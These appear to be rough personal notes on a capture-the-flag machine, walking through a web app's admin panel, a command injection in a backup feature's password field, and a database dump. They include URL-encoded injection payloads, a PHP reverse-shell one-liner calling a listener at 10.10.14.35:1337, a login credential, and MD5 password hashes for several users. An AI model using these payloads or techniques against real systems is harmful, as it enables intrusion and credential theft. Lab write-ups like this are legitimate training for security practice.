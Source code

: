 Temporary password: arHkG7HAI68X8s1J
User: amanda
arHkG7HAI68X8s1J


ssh no work so i gotta go to admin panel and get rce




Upon logging into amandas account I can now go to the admin panel which two things stand out

GET /admin.php?view=view.php  this then reponds by wrapping the file into a html </pre> element.  since i dont think this is filtered im sure i can read maybe a ssh key or something

So i can only read PHP files .php files  My guess right now is i can somehow upload a php reverse shell or maybe a web shell and then have it run through as php instead of just being rendered as html. Maybe i need to escape the tag somehow.

also man this machine was acting so slow. its so frustarating when your trying to do something and the connection just sucks and every 10 minutes the machine stops working for 5 mins

I can read the admin.php file and find

$command = "zip -x './backups/*' -r -P " . $password . " " . $backupFile . " .  > " . $logFile . " 2>&1 &";

so the password file is directly used in the command. Command injection lol 


Upon looking at the create backup I set the password bash -c "whoami"  and then url encode it


password=%0Abash%09-c%09"whoami"%0A&backup=Create+Backup


php -r '$sock=fsockopen("10.10.14.35",1337);exec("sh <&3 >&3 2>&3");'


The rev shell wasnt working and with a little work and ALOT of directory fuzzing I was able to get the database file

password=%0Abash%09-c%09"base64%09/var/www/nocturnal_database/nocturnal_database.db"%0A&backup=Create+Backup 

After base64 decoding it i see

Its in sqlite format so its a little hard to read but i see �Mtest098f6bcd4621d373cade4e832627b4f6B�IM<script>alert('test')</script>098f6bcd4621d373cade4e832627b4f61�'Mhackeruser123a791d28f2b7b3e8cb319d9fa13fc4e1e*�Mtobias55c82b1ccd55ab219b3b109b07d5061d*�Mamandadf8b20aa0c935023f99ea58358fb63c4)�Madmind725aeba143f575736b07e045d8ceebb what is the hases to each uses ALSO WHY IS EACH ONE HAVE A M before?? for example my user is test so tobias hash is 55c82b1ccd55ab219b3b109b07d5061d ?

|   |   |
|---|---|
|test|`098f6bcd4621d373cade4e832627b4f6`|

|   |   |
|---|---|
|hackeruser|`123a791d28f2b7b3e8cb319d9fa13fc4e1e`|
